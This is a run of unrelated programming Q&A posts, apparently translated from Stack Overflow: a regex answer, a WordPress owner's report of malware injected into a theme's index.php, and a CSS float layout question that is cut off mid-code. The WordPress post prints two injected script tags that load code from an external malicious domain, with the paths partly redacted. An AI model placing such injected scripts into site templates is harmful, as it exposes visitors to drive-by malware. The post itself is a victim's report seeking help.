 我不知道如何写那个正则表达式。请帮我解决这个问题。

* * *

## 回答 #1

> 赞同：7
> 
> 时间：2012-09-19T10:55:44.333

正则表达式`"^[^>#*]+$"`将匹配除包含`>`,`#`或的内容之外的任何输入`*`。

从您现有的正则表达式来看，您似乎不想允许`:`成为第一个或最后一个字符，在这种情况下，您想要的正则表达式是这样的：

`"^[^:>#*]+|([^:>#*][^>#*]+[^:>#*])$"`

# wordpress - Wordpress 恶意软件脚本注入 asaunirg.com.br facesta.com.br 0day.php

> ID：12493016
> 
> 赞同：2
> 
> 时间：2012-09-19T10:37:42.183
> 
> 标签：wordpress, iframe, applet, malware

修改了我的模板的 index.php 以在标记之前添加这两行代码（出于安全原因，我删除了脚本的某些部分）。

```
<script type="text/javascript" src="http://asaunirg.com.br/******"></script>
<script type="text/javascript" src="http://asaunirg.com.br/******"></script> 
```

他们打开两个 iframe、一个 java 小程序并向 . 它与 asaunirg.com.br 一起尝试连接到另一个名为 facesta.com.br 的站点。

我解决了它删除模板文件夹中 index.php 文件中的前两行（上面显示的恶意脚本）的问题。有谁知道如何将这个恶意代码注入我的网站？

# css - HTML/CSS：浮动 div 高度和底部垂直对齐

> ID：12493017
> 
> 赞同：1
> 
> 时间：2012-09-19T10:37:41.993
> 
> 标签：css, html, css-float

我无法使用`<div>`和 CSS制作下面 jsFiddle 链接中描述的 HTML 布局`float`。使用`table`标签我可以解决这个问题，但我需要 DIV+CSS 解决方案。这是可能的？任何人都可以帮忙吗？

**HTML：**

```
<div class="container">

<div class="column">

Some content!<br/>
Some content!<br/>
Some content!<br/>
Some content!<br/>
Some content!<br/>

</div>

 <div>
```